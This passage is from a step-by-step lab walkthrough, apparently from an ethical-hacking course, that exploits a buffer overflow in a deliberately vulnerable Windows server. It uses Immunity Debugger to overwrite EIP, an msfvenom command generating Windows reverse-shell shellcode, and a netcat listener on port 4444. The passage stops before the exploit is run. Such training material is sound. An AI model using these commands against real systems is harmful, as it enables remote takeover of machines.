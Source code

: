 	128. The Enter expression to follow pop-up appears; enter the identified return address in the text box (here, 625011af) and click OK.
	
	129. You will be pointed to 625011af ESP; press F2 to set up a breakpoint at the selected address, as shown in the screenshot.
	
	130. Now, click on the Run program in the toolbar to run Immunity Debugger.
	131. Click Parrot Security to switch to the Parrot Security machine.
	132. Maximize the terminal window, type chmod +x jump.py, and press Enter to change the mode to execute the Python script.
	133. Now, type ./jump.py and press Enter to execute the Python script.
	
	134. Click Windows 11 to switch to the Windows 11 machine.
	135. In the Immunity Debugger window, you will observe that the EIP register has been overwritten with the return address of the vulnerable module, as shown in the screenshot.
You can control the EIP register if the target server has modules without proper memory protection settings.
	
	136. Close Immunity Debugger and the vulnerable server process.
	137. Re-launch the vulnerable server as an administrator.
	138. Click Parrot Security to switch to the Parrot Security machine.
	139. Click the MATE Terminal icon at the top of the Desktop window to open a new Terminal window.
	140. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	141. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	142. Now, type cd and press Enter to jump to the root directory.
	143. In the terminal window enter the following command and press Enter to generate the shellcode.
msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -a x86 -b “\x00”
Here, -p: payload, local IP address: 10.10.1.13, listening port: 4444., -f: filetype, -a: architecture, -b: bad character.
	144. A shellcode is generated, as shown in the screenshot.
	145. Select the code, right-click on it, and click Copy to copy the code.
	
	146. Close the Terminal window.
	147. Maximize the previously opened Terminal window. Type pluma shellcode.py and press Enter.
Ensure that the terminal navigates to /home/attacker/Desktop/Scripts.
	148. A shellcode.py file appears in the text editor window, as shown in the screenshot.
	
	149. Now, paste the shellcode copied in Step#145 in the overflow option (Line 4); then, press Ctrl+S to save the file and close it.
	
	150. Now, before running the above command, we will run the Netcat command to listen on port 4444. To do so, click the MATE Terminal icon at the top of the Desktop window to open a new Terminal window.
	151. Open a new Terminal window. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	152. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	153. Now, type cd and press Enter to jump to the root directory.
	
	154. Type nc -nvlp 4444 and press Enter.
	155. Netcat will start listening on port 4444, as shown in the screenshot.
	